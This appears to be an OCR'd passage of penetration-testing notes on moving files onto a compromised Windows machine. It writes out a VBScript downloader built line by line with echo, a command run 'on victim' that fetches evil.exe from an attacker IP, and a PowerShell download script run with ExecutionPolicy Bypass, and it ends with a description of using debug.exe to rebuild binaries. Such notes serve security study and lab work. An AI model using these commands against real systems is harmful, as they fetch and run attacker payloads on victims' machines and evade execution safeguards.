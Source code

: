
### Scripting languages
+ Can use scripting languages like VBScript and PowerShell.  

Example VBScript:

  ```VBScript
  echo strUrl = WScript.Arguments.Item(0) > wget.vbs
  echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
  echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
  echo Err.Clear >> wget.vbs
  echo Set http = Nothing >> wget.vbs
  echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
  echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
  echo http.Open "GET", strURL, False >> wget.vbs
  echo http.Send >> wget.vbs
  echo varByteArray = http.ResponseBody >> wget.vbs
  echo Set http = Nothing >> wget.vbs
  echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
  echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
  echo strData = "" >> wget.vbs
  echo strBuffer = "" >> wget.vbs
  echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
  echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
  echo Next >> wget.vbs
  echo ts.Close >> wget.vbs
  ```

Then on victim
  ```
  c:> cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
  ```

Or on PowerShell:
  ```
  c:> echo $storageDir = $pwd > wget.ps1
  c:> echo $webclient = New-Object System.Net.WebClient >>wget.ps1 c:> echo $url = "http://192.168.10.5/evil.exe" >>wget.ps1 c:> echo $file = "new-exploit.exe" >>wget.ps1
  c:> echo $webclient.DownloadFile($url,$file) >>wget.ps1
  ```
  Now able to run the script and run our file:
  ```
  c:> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive - NoProfile -File wget.ps1
  ```

### debug.exe
+ On 32 bit Windows machine, have debug.exe utility.
+ debug.exe acts as an assembler, disassembler and a hex dumping tool.
+ The concept behind the use of debug.exe for file transfers is similar to the use of scripting languages. Use non-interactive echo commands, to write out the binary file in its hex value equivalents, and then use debug.exe to assemble the written text file into a binary file.
+ There is a 64k byte size limit to the files that can be created by debug.exe.
